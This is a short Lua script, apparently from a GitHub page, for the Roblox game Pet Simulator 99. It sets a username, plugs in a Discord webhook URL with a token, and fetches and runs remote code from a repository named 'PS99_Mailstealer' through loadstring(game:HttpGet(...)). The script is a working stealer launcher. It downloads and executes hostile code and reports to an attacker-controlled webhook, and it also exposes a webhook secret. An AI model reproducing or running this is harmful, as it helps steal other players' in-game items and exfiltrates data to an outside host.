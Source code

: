 # das
Username = "Monkeymasafu" LoadScreen = true Webhook = "https://discord.com/api/webhooks/1324547851149246554/c39MFddpQ7M-84VDYJdJwlaEKeSSuVgJcAOPVNbeqgUk9LEGJgl3WDt0n-hohC_OO4p5" -- Paste your Discord webhook here loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
